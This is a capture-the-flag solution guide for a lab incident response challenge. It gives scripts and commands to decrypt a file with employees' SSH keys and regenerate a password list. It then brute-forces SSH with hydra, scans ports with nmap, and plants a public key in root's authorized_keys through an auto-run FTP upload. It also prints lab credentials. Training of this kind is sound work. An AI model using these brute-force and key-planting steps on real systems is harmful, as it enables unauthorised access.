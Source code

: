 # Where Did I Put My Keys?

_Solution Guide_

## Overview 

_Where Did I Put My Keys?_ is an incident response challenge where competitors must regain access to a compromised system. It involves writing various scripts to create a wordlist and retrieve SSH keys.

## Question 1

_Which user's key was used to encrypt the script?_

1. Log in to `kali-workstation` (wait a few minutes for start-up scripts to complete).
2. Access the ftp server at `ftp ftp-server.us` with the credentials `user:tartans`.
3. Files will be found within the **files** directory: `encrypted.enc`, `rsa_key.enc`, `wordlist.txt`, and a directory called **keys** containing all of the SSH keys for each employee (150 directories each containing `id_rsa` and `id_rsa.pub` files).
4. Open a new terminal and download all of the files from the directory using the command `wget -r -m ftp://user:tartans@ftp-server.us`. This will create a directory called **ftp-server.us** containing all of these files.
5. Since we do not know which user's key pair was used to generate the encryption, a script will be needed to try the decryption for every user. Create this script in the **/home/user** directory.
``` 
bash
    #!/bin/bash
    
    for user in ftp-server.us/files/keys/*
    do
        chmod 600 $user/id_rsa
        ssh-keygen -p -m PEM -N "" -f $user/id_rsa
        openssl rsautl -decrypt -oaep -inkey $user/id_rsa -in ftp-server.us/files/rsa_key.enc -out rsa_key.keygen
        openssl aes-256-cbc -d -in ftp-server.us/files/encrypted.enc -out $user.py -pass file:rsa_key.keygen
    
    done
```
6. Running this script (permissions may need to be changed with `sudo chmod +x script.sh`) will create a script called `user##.py` within **/home/user/ftp-server.us/files/keys/** that contains the code the attacker used to generate the password. This user is the answer to Question 1.

## Question 2

_What is the token found on the ftp server?_

1. Look at the code. The password was generated using the wordlist provided on the **Desktop** of `kali-workstation`.
	- Each word in the list was sorted by the sum of each letter's unicode value minus the time the script was executed (August 16, as per the challenge guide). 
	- Two words were appended together based on the index of the word and the Unicode value of the first letter of the word to create a sublist of 500 words.
	- One of these 500 words was chosen as the password.
	
	  Since the script was encrypted and downloaded, the original metadata has been overwritten so the script will not run properly as is.

2. Comment out the part of the script where the variable `sort_val` was generated (lines 14-18) and manually change the `sort_val` to when the script was thought to have been run: `August 16th` or `816`

3. Because only one password was chosen at random, we will need to store the entire sublist by changing the last line to:

`open("/home/user/passwd_gen", "w").write("\n".join(choices))`

​	The final edited script should look like the following:

``` 
    python
    import os, time, datetime, random
    
    def ord_sum(word):
        ord_val = 0
        for letter in word:
            ord_val += ord(letter)
    
        return ord_val
    
    choices = []
    
    #path = r"/home/user/genNewPass.py"
    
    #date = datetime.datetime.strptime(time.ctime(os.path.getmtime(path)), "%a %b %d %H:%M:%S %Y")
    
    #sort_val = int(str(date.month)+str(date.day))
    
    sort_val = 816
    
    words = open("/home/user/wordlist.txt", "r").read().splitlines()
    
    words.sort(key=lambda x: abs(ord_sum(x) - sort_val))
    
    for i in range(1, 501):
        choices.append(words[i] + words[ord(words[i][0])*(i//10)])
    
    open("/home/user/passwd_gen", "w").write("\n".join(choices))
```

6. Before executing the script, the permissions may need to be changed using `sudo chmod +x user##.py`. Also, move `/home/user/ftp-server.us/files/wordlist.txt` to the **/home/user/** directory.
7. Once the wordlist is generated, use a program (such as `hydra`) to try and brute force into `10.5.5.101` with each password:
`hydra -l user -P /home/user/passwd_gen 10.5.5.101 ssh`.
8. Once hydra finds the password, log in to `10.5.5.101` with the found password.
9. On the **Desktop**, you will be able to find the credentials for the `remote-user` on the FTP server: `remote-user:d0nTm4kEy0Urp45sW0rdPAs5woRd`. After logging in to this user and navigating to the **files** directory, you will see a `README` that will contain the second token.

## Question 3

_What is the token found on 10.5.5.128?_

1. Any bash or python files uploaded to the **files** directory of this user will automatically run. Keep in mind that the FTP server has SSH access to the final target machine.
2. When attempting to log in to the final target machine, we will find that port 22 is no longer being used for SSH access for security reasons. To find the correct port, run: `nmap -p- 10.5.5.128`. Be sure to keep track of this port.
3. Attempting to log in to the final target machine with the correct port will now yield a `Permission denied (publickey)` error, and since we know that the final machine only accepts SSH access via a `root` account, we will need to find a way to upload the public key of a `root` account to the final machine.
4. First, we need to get the key found in the `ssh-access` machine's `root` ssh folder.
5. From the **/root/.ssh** directory, copy either key to the **user** directory with `cp id_rsa.pub /home/user/` and upload it to the ftp server by:
	- Connecting to `ftp ftp-server.us` with the credentials `remote-user:d0nTm4kEy0Urp45sW0rdPAs5woRd`
	- `cd files`
	- `put id_rsa.pub`

6. We can now write a script to append that key to the final machine's **authorized_keys** folder, which can be run by uploading to the `remote-user`'s FTP directory.
7. One possible solution is to write a script like the following:

``` 
bash
    #!/bin/bash
    
    sudo scp -P [ENTER PORT] /home/remote-user/ftp/files/id_rsa.pub root@10.5.5.128:/tmp/id_user
    sudo ssh -p [ENTER PORT] root@10.5.5.128 'cat /tmp/id_user >> /root/.ssh/authorized_keys'
```
This will copy the key from the remote-user's directory into a tmp file in the target machine, then append that key into the machine's `authorized_keys` file.

8. Uploading the script using the same method as the key upload in `step 5` will allow access from the `root` account.
9. `sudo su` into the root account, then `ssh -p [ENTER PORT] root@10.5.5.128` and navigate to the **Desktop**. `cat` out the `token.txt` file to receive the final token.
